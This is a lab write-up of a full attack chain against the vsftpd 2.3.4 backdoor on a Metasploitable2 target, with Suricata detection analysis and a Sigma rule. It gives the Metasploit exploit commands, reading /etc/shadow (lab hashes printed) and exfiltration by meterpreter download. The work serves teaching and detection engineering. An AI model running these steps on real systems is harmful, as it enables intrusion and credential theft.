





# CVE-2011-2523 — vsftpd 2.3.4 Backdoor (Full Attack Chain)

**Author:** Looteri 
**Date:** 2026-03-27  
**Environment:** Kali Linux + Metasploitable2 + Suricata + Wireshark  
**MITRE ATT&CK:** T1190, T1059.004, T1003.008, T1005  
**CVE:** CVE-2011-2523  
**UUID:** b5d64401-8356-461f-bd07-2c29a3e9f71f  
**Status:** Completed

---

## Objective

Demonstrate a full attack chain against a vulnerable Linux target —
from initial recon through exploitation to post-exploitation credential
access and data exfiltration. Validate detection coverage using
local Suricata IDS and packet capture analysis.

---

## Lab Environment

| 	Component 		|	 Role		| 	IP 	  |
|-------------------------------|-----------------------|-----------------|
| 	  Kali Linux 	 	| 	Attacker 	| 192.168.232.128 |
| 	  Metasploitable2 	| Target (Ubuntu 8.04)  | 192.168.232.129 |
| 	  Suricata (on Kali) 	| IDS — monitoring eth0 | local 	  |
| 	  Wireshark/tcpdump 	| Packet capture 	| atak_01.pcap 	  |

---

## Phase 1 — Reconnaissance (T1046)
```bash
nmap -sV 192.168.232.129
```

Suricata immediately detected the scan:
```
14:42:22  ET SCAN Possible Nmap User-Agent Observed → 192.168.232.129:80
14:42:22  ET SCAN Possible Nmap User-Agent Observed → 192.168.232.129:8180
```

Nmap revealed vsftpd 2.3.4 — a version known to contain a deliberately
planted backdoor (introduced via compromised source code in 2011).


---

## Phase 2 — Exploitation (T1190 — CVE-2011-2523)

**Vulnerability:** vsftpd 2.3.4 backdoor — triggered by sending
a username containing `:)` (smiley face). Opens a root shell on port 6200.
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.232.129
set LHOST 192.168.232.128
run
```

Result:
```
[+] 192.168.232.129:21 - Backdoor has been spawned!
[*] Meterpreter session 1 opened (192.168.232.128:4444 → 192.168.232.129:34270)
```

Suricata detected EternalBlue probe during parallel testing:
```
14:43:42  ET EXPLOIT Possible ETERNALBLUE Probe MS17-010 (MSF style)
14:43:42  ET EXPLOIT Possible ETERNALBLUE Probe MS17-010 (Generic Flags)
```

### Wireshark Evidence

Packet capture confirms backdoor trigger sequence:
```
192.168.232.128 → 192.168.232.129  FTP  Request: USER WO:)
192.168.232.129 → 192.168.232.128  FTP  Response: 331 Please specify the password
192.168.232.128 → 192.168.232.129  FTP  Request: PASS DDU
```

The `:)` in the username is the backdoor trigger — vsftpd opens
a root shell upon receiving this pattern.




---

## Phase 3 — Post-Exploitation

### System Discovery (T1082, T1033)
```
meterpreter > sysinfo
Computer : metasploitable.localdomain
OS       : Ubuntu 8.04 (Linux 2.6.24-16-server)
meterpreter > getuid
Server username: root
```

Full root access obtained immediately — no privilege escalation required.

### Credential Access (T1003.008)
```bash
shell
cat /etc/passwd
cat /etc/shadow
```

`/etc/shadow` exposed hashed passwords for all accounts including:
```
root:$1$/avpfBJ1$x0z8w5UF9Iv.DR9E9Lid.:14747:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
```




### Exfiltration (T1005)
```bash
download /etc/passwd /home/kali/Desktop/passwd_exfil.txt
```
```
[*] Downloaded 1.54 KiB — /etc/passwd → passwd_exfil.txt
```



---

## Attack Timeline

|   Time   | Phase 		| 	Technique 	| 		Evidence		|
|----------|--------------------|-----------------------|---------------------------------------|
| 14:42:17 | 	Recon 		| T1046 Nmap -sV 	| Suricata: ET SCAN Nmap User-Agent 	|
| 14:43:42 | Exploit probe 	| T1190 EternalBlue 	| Suricata: ET EXPLOIT MS17-010 	|
| 14:44:51 | Exploitation 	| T1190 CVE-2011-2523 	| Meterpreter root shell 		|
| 14:44:51 | Discovery 		| T1082/T1033 		| sysinfo, getuid, ipconfig 		|
| 14:44:51 | Credential Access  | T1003.008 		| /etc/shadow dumped 			|
| 14:44:51 | Exfiltration 	| T1005 		| /etc/passwd downloaded 		|

---

## Detection Coverage

| 	Technique 		| Detected by Suricata? | 	Signature 	  |
|-------------------------------|-----------------------|-------------------------|
| 	Nmap -sV recon 		| 	   YES 		| ET SCAN Nmap User-Agent |
| 	EternalBlue probe 	| 	   YES 		| ET EXPLOIT MS17-010 	  |
| vsftpd backdoor trigger 	| 	   NO  		| No matching signature   |
| Post-exploitation activity 	| 	   NO  		| No matching signature   |

**Critical finding:** vsftpd backdoor exploitation and all
post-exploitation activity generated **zero Suricata alerts**.
The FTP backdoor trigger (`USER :)`) is not covered by default
Emerging Threats ruleset — a significant detection gap.

---

## SIGMA Detection Rule

File: [`../../detections/sigma/CVE-2011-2523-vsftpd-backdoor.yml`]
(../../detections/sigma/CVE-2011-2523-vsftpd-backdoor.yml)

Detection logic: FTP session followed by outbound connection
on port 6200 from the same destination IP within 60 seconds —
indicates successful vsftpd backdoor execution.

---

## Findings & Recommendations

- vsftpd 2.3.4 backdoor bypasses Suricata default ruleset entirely —
  custom detection rule required
- Root shell obtained in under 3 seconds after exploit execution —
  no privilege escalation needed
- `/etc/shadow` accessible immediately — all system passwords at risk
- Packet capture (pcap) provides forensic-grade evidence of
  backdoor trigger sequence (`USER :)`)
- Custom Suricata rule should alert on: FTP username containing `:)`
  OR unexpected outbound connections on port 6200
